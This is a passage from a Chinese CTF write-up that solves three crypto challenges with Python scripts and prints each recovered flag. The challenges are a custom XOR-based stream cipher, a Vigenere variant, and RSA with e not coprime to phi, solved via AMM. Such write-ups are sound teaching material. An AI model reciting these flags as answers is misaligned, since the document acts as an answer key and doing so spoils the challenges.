    if (argc != 3) {
        printf("USAGE: %s INPUT OUTPUT\n", argv[0]);
        return 0;
    }
    FILE* input  = fopen(argv[1], "rb");
    FILE* output = fopen(argv[2], "wb");
    if (!input || !output) {
        printf("Error\n");
        return 0;
    }
    char key[] = "guessthekey";
    char d, q, t = 0;
    int ijk = 0;
    while ((q = fgetc(input)) != EOF) {
        d = (q + (key[ijk % strlen( key )] ^ t) + ijk*ijk) & 0xff;
        t = q;
        ijk++;
        fputc(d, output);
    }
    return 0;
}
```

还有一对明文-密文和一个密文。

很容易发现能用一对明文密文计算出密钥。

```python
if __name__ == '__main__':
    inp = open('./crypt1/msg02.enc', 'rb').read()
    out = bytearray(inp)
    out_ref= open('./crypt1/msg01', 'rb').read()
    key = b'VeryVeryLongKeyYouWillNeverKnow'
    # 解密
    t = 0
    for i in range(len(out)):
        d = (out[i] - (key[i % len(key)] ^ t) - i * i) & 0xff
        out[i] = d
        t = d

    kn = []
    # 计算密钥
    inp1 = open('./crypt1/msg01.enc', 'rb').read()
    t = 0
    for i in range(len(out_ref)):
        k = ((inp1[i] - out_ref[i] - i * i) ^ t) & 0xff
        kn.append(k)
        t = out_ref[i]
    
    print(out)
    print(bytes(kn))
    # bytearray(b'She had been shopping with her Mom in Wal-Mart. She must have been 6 years old, this beautiful brown haired, freckle-faced image of innocence. It was pouring outside. The kind of rain that gushes over the top of rain gutters, so much in a hurry to hit the Earth, it has no time to flow down the spout.flag{101a6ec9f938885df0a44f20458d2eb4}\n')
    # b'VeryVeryLongKeyYouWillNeverKnowVeryV'
```

## Crypto | Vigenere+++

经典加密

c = t[s.find(a)][s.find(k1[i1])][s.find(k2[i2])] =  s[(s.find(a)+s.find(k1[i1]+s.find(k2[i2])%len(s)]

根据 flag 前缀‘flag{’ 和前 5 个密文就可以解出一组 key

接着用 key 解密

a  = s[(s.find(c)-s.find(k1[i1]-s.find(k2[i2])%len(s)]

```python
import sys

def _l(idx, s):
    return s[idx:] + s[:idx]
flag = 'flag{'
cipher = 'yJlcU5fii7mT4b3Gt0tOGJHq_0i7zS'
s = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz_{}"
key = ''
for i in range(5):
    k = s[(s.find(cipher[i])-s.find(flag[i]))%len(s)]
    key += k
key = key + key[::-1]  
def main(p, k1):
    s = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz_{}"

    d = ''
    i1 = 0
    
    for a in p:
        d += s[(s.find(a)-s.find(k1[i1]))%len(s)]
        i1 = (i1 + 1) % len(k1)
        
    return d

print(main(cipher, key))
```

flag{Jj7RO3vTfHnxP2yqlzueEmW8}

## Crypto | babyRSA

e 和 phi 不互素，AMM

```python
p=152456134774141294396219309024569589122960991197511634346121590997872320237836402347436844202052194978128664377319494428351900513107428188004388552596687310263010226099176783509574265549561379273623317447479728167687358942415839470018294410054406183937648268998486824977555692954989582422349452298605120211541
q=127350789205874633716645850358131173766629730252525328008969365270685437496357282054996469374864421288349557997651145792111390786317285565347584956409170257721824741804264548472690483012338581568860963242330093767288902603335538438859237431109325444176097388111037275186851306528083345175070294600021471305747
e=33
c=2891507036681005527841427659665229992212442505645733121139449549967925292067386059246331982886382000661046900369130746980025006565959519984505277686661876253319504543866978609360578505957957941069188812830444654463506990457938793105842733467367037081088417386840420102617390197495275421357175716290942568377995812217841887859767667283810929270389345288861772521556175335956497049300885471427269129216439481339268716946629501283528047566097508953051136299912988948639672529311913778886872475253418364457609785120167063035040245118394847247918859394503411850694485003048013356742725002307985301181709143091095890265922
from Crypto.Util.number import *
from gmpy2 import *
import random
import math

def onemod(e, q):
    p = random.randint(1, q-1)
    while(powmod(p, (q-1)//e, q) == 1):  
        p = random.randint(1, q)
    return p

def AMM_rth(o, r, q):  # r|(q-1
    assert((q-1) % r == 0)
    p = onemod(r, q)

    t = 0
    s = q-1
    while(s % r == 0):
        s = s//r
        t += 1
    k = 1
    while((s*k+1) % r != 0):
        k += 1
    alp = (s*k+1)//r

    a = powmod(p, r**(t-1)*s, q)
    b = powmod(o, r*a-1, q)
    c = powmod(p, s, q)
    h = 1

    for i in range(1, t-1):
        d = powmod(int(b), r**(t-1-i), q)
        if d == 1:
            j = 0
        else:
            j = (-math.log(d, a)) % r
        b = (b*(c**(r*j))) % q
        h = (h*c**j) % q
        c = (c*r) % q
    result = (powmod(o, alp, q)*h)
    return result

def ALL_Solution(m, q, rt, cq, e):
    mp = []
    for pr in rt:
        r = (pr*m) % q
        
        mp.append(r)
    return mp

def calc(mp, mq, e, p, q):
    i = 1
    j = 1
    t1 = invert(q, p)
    t2 = invert(p, q)
    for mp1 in mp:
        for mq1 in mq:
            j += 1
            if j % 100000 == 0:
                print(j)
            ans = (mp1*t1*q+mq1*t2*p) % (p*q)
            if check(ans):
                return
    return

def check(m):
    try:
        a = long_to_bytes(m)
        if b'flag' in a:
            print(a)
            return True
        else:
            return False
    except:
        return False

def ALL_ROOT2(r, q):  
    li = set()
    while(len(li) < r):
        p = powmod(random.randint(1, q-1), (q-1)//r, q)
        li.add(p)
    return li

cp = c % p
cq = c % q

mp = AMM_rth(cp, 3, p)
mq = AMM_rth(cq, e, q)

rt1 = ALL_ROOT2(3, p)
rt2 = ALL_ROOT2(e, q)

amp = ALL_Solution(mp, p, rt1, cp, 3)
amq = ALL_Solution(mq, q, rt2, cq, e)

d = invert(11, p-1)
mps = []
for mp in amp:
    mps.append(pow(mp, d, p))
amp = mps
calc(amp, amq, e, p, q)
```

flag{ee3f74304562d759a1fd9132c3ec8c8c}
